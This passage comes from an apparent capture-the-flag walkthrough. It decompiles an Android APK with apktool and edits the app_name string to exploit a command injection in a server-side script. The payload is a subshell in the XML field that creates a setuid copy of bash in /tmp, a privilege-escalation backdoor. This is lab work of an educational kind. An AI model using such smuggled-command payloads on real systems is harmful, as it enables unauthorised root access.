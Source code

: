 It uses `grep` to pull the name out of `strings.xml`, and then if “Catch” is present in the name it makes a directory and moves the apk into it.

To command inject, I’ll just need to have the name get set to something with a subshell (`$()`), and that will be executed.

### Command Injection

#### Edit APK

I’ll use `apktool` to decompile the APK into its sources, as described [here](https://medium.com/@sandeepcirusanagunla/decompile-and-recompile-an-android-apk-using-apktool-3d84c2055a82). I’ll grab the latest release [here](https://github.com/iBotPeaches/Apktool/releases/tag/v2.6.1). Because this APK isn’t going to run on a device, I don’t have to worry about signing it.

I’ll start by decompiling the app:

```

oxdf@hacky$ java -jar apktool_2.6.1.jar d catchv1.0.apk -o decomp
I: Using Apktool 2.6.1 on catchv1.0.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/oxdf/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...

```

I’ll verify that I can rebuild that with no changes, just to make sure my system is working:

```

oxdf@hacky$ java -jar apktool_2.6.1.jar b -f decomp/ -o test.apk
I: Using Apktool 2.6.1
I: Smaling smali folder into classes.dex...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk...
oxdf@hacky$ rm test.apk 

```

I was getting errors at one point that kind of looked like [this issue](https://github.com/iBotPeaches/Apktool/issues/1842), and were fixed by running `apktool empty-framework-dir --force` as suggested there.

I’ll open `decomp/res/values/strings.xml` and edit the `app_name`:

```

    <string name="app_name">Catch$(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)</string>

```
